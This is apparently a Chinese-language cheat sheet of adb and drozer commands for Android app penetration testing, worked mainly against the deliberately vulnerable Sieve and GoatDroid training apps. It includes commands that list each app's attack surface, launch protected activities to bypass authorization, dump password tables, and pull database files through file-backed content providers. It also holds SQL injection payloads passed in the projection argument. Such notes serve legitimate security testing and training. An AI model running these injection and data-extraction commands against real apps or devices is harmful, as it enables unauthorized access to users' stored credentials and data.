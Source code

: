 # App渗透测试记录 

### 1. 常用命令  

1. 获取已安装应用的包名  

 		adb shell pm list packages  
 
2. 获取包名对应的APK路径
 
 		adb shell pm path com.vivo.sdkplugin 
3. 把APK pull到本地  

 		adb pull /data/app/com.vivo.sdkplugin-zvXOuWJKeKVhhESsKWxOxg==/base.apk abc.apk
4. aapt获取APK包的信息 
 
 		aapt dump badging apk_path  

5. 获取应用的信息  

 		adb shell dumpsys package <package_name>  

6. 获取当前运行的Activity   

		adb shell dumpsys activity | grep -i run   
 
7. 获取和用户正在交互的Activity  
 
 		adb shell dumpsys activity  | grep "mFoc"
 		

### 2. drozer使用  

1. adb forward tcp:31415 tcp:31415  
2. adb console connect  
3. run app.package.list 
4. run app.package.list -f sieve 
5. run app.package.info -a com.mwr.example.sieve  
6. 检查攻击面：  
 
 		run app.package.attacksurface com.mwr.example.sieve  
 
#### 1. Activity测试  
1. 查看activity信息：  

 		run app.activity.info -a com.mwr.example.sieve

2. 启动activity信息：  
 1. Activity通常就是一个单独的屏幕，可以显示一些控件也可以监听并处理用户的的事件最初响应；   
 2. Activity之间通过Intent进行通信，最重要的部分：动作和动作对应的数据  
 3. 越权访问问题  

			run app.activity.start –-component com.mwr.example.sieve com.mwr.example.sieve.PWList  

 	  翻译编译代码，确定activity需要传递的参数，启动activity：  

 			run app.activity.start --component com.example.pacakge com.example.activity --extra string package strvalue --extra string appid appidvalue    


#### 2. Provider测试  
1. 查看content provider信息  

 		run app.provider.info -a com.mwr.example.sieve  

2. 查找可以访问的content provider的URI  
 1. 最好需要打开应用程序，保证应用程序在运行  
 2. 数据泄露  

 			run scanner.provider.finduris -a com.mwr.example.sieve

 		查询、修改数据：  
 		
 			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ –-vertical
 			
3. 进行SQL注入  
 
 1. SQLite数据库使用SQL语句，所以进行SQL注入，使用projection参数和selection参数可以传递一些简单点得SQL注入语句，获取到详细的报错信息：    
 
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"   

  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" 
   
 2. 查询所有数据库表：  
  
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM SQLITE_MASTER WHERE TYPE='table';-- "   
  
 3. 列出数据库内容：
 
  			run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;-- "   
    
4. 扫描注入：
 
  		run scanner.provider.injection -a APP
  
5. 从File Content Providers获取信息：    
 	1. File System-backed Content Provider提供了访问底层文件系统的方法，Android沙盒会阻止App共享文件允许，而File System-backed Content Provider允许App共享文件。 
 	2. 对于sieve来说，我们可以推测出的FileBackupProvider就是一个file system-backed content provider。 我们可以使用drozer的app.provider.read模块查看某个文件：
  
  			run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts  
6. 文件下载：
 
  		run app.provider.download content://com.mwr.example.sieve.FileBackupProvider/data/data/com.mwr.example.sieve/databases/database.db /home/user/database.db  

7. 检查是否存在遍历文件漏洞
 
  		run scanner.provider.traversal -a com.mwr.example.sieve   
 
 
#### 3. Broadcast测试：  
	
BroadcastReceive广播接收器应用可以使用它对外部事件进行过滤只对感兴趣的外部事件(如当电话呼入时，或者数据网络可用时)进行接收并做出响应。广播接收器没有用户界面。然而，它们可以启动一个activity或serice 来响应它们收到的信息，或者用NotificationManager来通知用户。通知可以用很多种方式来吸引用户的注意力──闪动背灯、震动、播放声音等。一般来说是在状态栏上放一个持久的图标，用户可以打开它并获取消息。   

1. 查看暴露的广播组件信息：
 
  		run app.broadcast.info -a com.package.name  
 
    
2.  发送信息：
 
  		run app.broadcast.send --component packagename receivername --action android.intent.action.XXX

    
3.  空action：
 
  		run app.broadcast.send --component packagename ReceiverName
  
4. 空extras:
 
  		run app.broadcast.send --action android.intent.action.XXX

#### 4. service测试：  

 1. 获取service：
  
  		run app.service.info -a com.mwr.example.sieve
  
 2. 向某个服务发送信息：
 
  		run app.service.send com.mwr.example.sieve com.mwr.example.sieve.CryptoService –msg 1 5 3
 3. 启动service：
 
  		run app.service.start --action org.owasp.goatdroid.fourgoats.services.LocationService --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.services.LocationService
  
 4. 使用命令：  
  
  		run app.service.send <package name> <component name> --msg <what> <arg1> <arg2> --extra <type> <key> <value> --bundle-as-obj
  		
 
